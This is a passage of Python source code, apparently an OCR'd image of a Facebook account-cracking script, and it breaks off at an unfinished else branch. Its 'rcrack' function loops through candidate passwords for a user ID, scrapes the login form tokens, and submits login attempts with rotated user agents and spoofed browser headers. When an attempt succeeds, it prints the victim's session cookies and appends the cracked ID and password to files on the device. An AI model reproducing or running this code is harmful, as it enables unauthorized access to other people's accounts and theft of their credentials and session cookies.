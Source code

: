 def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            pro = random.choice(ugen2)
            session = requests.Session()
            free_fb = session.get('https://mbasic.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {'authority': 'x.facebook.com',
			'upgrade-insecure-requests': '1',
			'viewport-width': '980',
			'method': 'POST',
			'scheme': 'https',
			'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
			'dnt':'1', 
			'referer': 'https://mobile.facebook.com/',
			'x-requested-with':'mark.via.gp', 
			'sec-fetch-user': '?1',
		    'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
			'sec-fetch-site': 'same-origin',
			'upgrade-insecure-requests': '1',
			'accept-encoding':'gzip, deflate, br','accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
			'cache-control': 'max-age=0',
			'sec-ch-ua': '"Chromium";v="111", "Not(A:Brand";v="8"',
			'sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Window"',
			'sec-ch-device-memory': '8',
			"sec-ch-prefers-color-scheme": '"light"',
            "user-agent": pro}
            lo = session.post('https://mbasic.facebook.com/login/device-based/login/async/?refsrc=deprecated&lwv=100',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\r\033[1;32m[sudair-OK] \033[0;97m'+uid+'\033[1;32m | \033[0;93m' +ps+    '  \n[]\033[0;93m COOKIE = \033[1;32m'+coki+  '  ''  \033[0;97m')
                cek_apk(session,coki)
                sn4gdh9('/sdcard/sudair-OK.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(uid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                print('\r\r\33[1;30m[sudair-CP] ' +uid+ ' | ' +ps+           '  \33[0;97m')
                sn4gdh9('/sdcard/sudair-CP.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(uid)
                break
            else: